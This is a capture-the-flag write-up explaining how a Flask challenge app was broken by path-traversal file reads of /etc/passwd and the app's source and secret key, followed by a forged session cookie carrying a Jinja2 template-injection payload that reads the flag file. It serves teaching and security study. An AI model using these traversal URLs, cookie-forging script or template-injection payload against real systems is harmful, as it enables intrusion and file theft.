









# "Golem is stupid!", Web (no fixed points)

## Problem




## Solution

That was a really interesting challenge where exploitation of LFI (Local File Inclusion) leads to SSTI (Server Side Template Injection) in Flask web application.

Here's my step-by-step writeup - how I get the flag.

### First recon

When we get to the provided URL https://golem.asisctf.com/ only thing we could see was simple form with one text input:




After we filled it with our username, we were moved into the next, personalized "welcome screen" (also a cookie named ```session``` was set at this moment):





After clicking the link, we were presented an article about Golem:



That was pretty all.

The first thing which was worth to take a look at was an url, which looks like a good point to check against LFI (Local File Include). After couple of tries, I was able to confirm my theory with very simple payload:

```
https://golem.asisctf.com/article?name=../../../etc/passwd
```

...which leads me to, looking very familiar, output:





Ok, we've got LFI, but what actually we can do with this?


### Exploiting LFI to get application source code

There are some interesting things we can do on Linux machine with LFI like this. We can try several steps: obviouos ones like read ```/etc/passwd```, try to read server logs from ```/var/log```, web server configuration from ```/etc/apache2```, files from ```/etc```, ```/home```, or ```/proc``` directories and so on.

You can find many more stuff like this in this brilliant post by @g0tmi1k (https://twitter.com/g0tmi1k):

http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


```/proc``` is very interesting, because we can get a lot of information about current process (web server in this case) or any other process if we are able to obtain its PID. 

So I've started from read ```/proc/self/cmdline``` file (it contains command which was used to run current process):

```
https://golem.asisctf.com/article?name=../../../proc/self/cmdline 
```

We've got an information about that what we are currently looking at, is Python WSGI application:

```
Article Content: /usr/bin/uwsgi--ini/usr/share/uwsgi/conf/default.ini--ini/etc/uwsgi/apps-enabled/golem_proj.ini--daemonize/var/log/uwsgi/app/golem_proj.log
```

Let's try to find out some more details by investigating ```/etc/uwsgi/apps-enabled/golem_proj.ini``` part of above command:


```
https://golem.asisctf.com/article?name=../../../etc/uwsgi/apps-enabled/golem_proj.ini
```

Boom! Now we have exact path to Python application source (look at ```wsgi-file``` below):


```
Article Content: [uwsgi] socket	= 127.0.0.1:9090 
plugin	= python 
wsgi-file	= /opt/serverPython/golem/server.py 
chdir = /opt/serverPython/golem 
process	= 3 
callable	= app
```


Let's get the source:

```
https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/server.py
```

And here we go:




Here's formatted Python source code of ```server.py```:

```python
import os

from flask import (
    Flask,
    render_template,
    request,
    url_for,
    redirect,
    session,
    render_template_string
)
from flask.ext.session import Session

app = Flask(__name__)


execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key


@app.route("/golem", methods=["GET", "POST"])
def golem():
    if request.method != "POST":
        return redirect(url_for("index"))

    golem = request.form.get("golem") or None

    if golem is not None:
        golem = golem.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem

    template = None

    if session['golem'] is not None:
        template = '''{% % extends "layout.html" % %}
		{% % block body % %}
		<h1 > Golem Name < /h1 >
		<div class ="row >
		<div class = "col-md-6 col-md-offset-3 center" >
		Hello: % s, why you don't look at our <a href=' / article?name = article'> article < /a >?
		< / div >
		< / div >
		{% % endblock % %}
		''' % session['golem']

        print

        session['golem'] = None

    return render_template_string(template)


@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")


@app.route('/article', methods=['GET'])
def article():

    error = 0

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    if page.find('flag') >= 0:
        page = 'notallowed.txt'

    try:
        template = open('/home/golem/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)

```


Let's take a look at it a little bit closer.


### Digging into server.py source code


First thing we can spot are two files executed at the beginning:

```python
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
```

Obviously, trying to read ```flag.py``` with LFI failed due to condition which can be found in the code:

```python
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    if page.find('flag') >= 0:
        page = 'notallowed.txt'
```

Great. So LFI on ```flag.py``` was not the challenge expected solution. We had to **try harder** :)


Anyway, we can read content of ```key.py```:


```
https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/key.py
```


That returns interesting string, which is assigned to ```app.secret_key``` in the code:





(_Spoiler: No, this is not the flag either, even if it looks like one_ ;) )


What this string is used for, you can read in Flask manual (in part about session handling). In general, session secret key is used to encrypt content of the session variables. If we know secret key, we can spoof session cookie content.

But how it could be used in Golem application?


Take a look at this part of the code:


```python
    golem = request.form.get("golem") or None

    if golem is not None:
        golem = golem.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem
```

Cleaning up ```POST``` variable ```golem``` from ```{```, ```}``` ,```_``` and ```.``` means we couldn't use it to perform Template Injection attack in template generates later (```{``` and ```}``` are used to evaluate expressions in template variables):


```python

    if session['golem'] is not None:
        template = '''{% % extends "layout.html" % %}
		{% % block body % %}
		<h1 > Golem Name < /h1 >
		<div class ="row >
		<div class = "col-md-6 col-md-offset-3 center" >
		Hello: % s, why you don't look at our <a href=' / article?name = article'> article < /a >?
		< / div >
		< / div >
		{% % endblock % %}
		''' % session['golem']

        print

        session['golem'] = None

    return render_template_string(template)

```

But there is one detail which seems to be Golem developers' oversight: **value of ```golem``` read from session cookie is not sanitized and if it's not null, it's used in template instead of value passed by POST from the form.**

So here we found our injection point. What I had to do was simply to craft session cookie value which contains SSTI (Server Side Template Injection) payload as our username passed as value of ```golem```.

You can read more about how to exploit such vulnerability in Flask templates in this detailed writeup by @nVisium:


https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/


### Building SSTI payload


To be able to generate session cookie with hijacked session key, I've prepared very simple Flask application:

```python
from flask import (
    Flask,
    session)
from flask.ext.session import Session


app = Flask(__name__)
app.secret_key = "7h15_5h0uld_b3_r34lly_53cur3d"

@app.route('/')
def hello_world():
    session["golem"] = "[HERE GOES OUR PAYLOAD]" 

    print session
    return session["golem"]

```

This simple script just outputs in console ready to use session cookie, which value is our payload.


Following the second part on @nVisium blog (https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) I've prepared payload which simply prints the content of ```flag.py``` file:

```python
"{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read()}}" 
```

Running script locally gave me session cookie string I could copy and paste as session cookie in ```Golem``` app:





After I've pasted this string in ```Golem``` app and move forward with some fake username put in the input finally I was able to read the flag:




The flag:

```
Hello : flag = 'ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}' , why you don't look at our article?

```


It was really interesting challenge, which forced me to:

- learn some new stuff about Flask and how it handles sessions
- how to perform SSTI injection in Flask templates
- how to use LFI to get details about running processes

That's why time and effort put into participating in online CTF events like ASIS CTF 2017 is always a good idea for anyone dealing with IT Security topics. If you feel this is something you want to give a try - CTFtime.org website is a good place to start! 


### References

Very good article about SSTI in various template engines: **Server-Side Template Injection** by James Kettle from PortSwigger (https://twitter.com/albinowax):


http://blog.portswigger.net/2015/08/server-side-template-injection.html


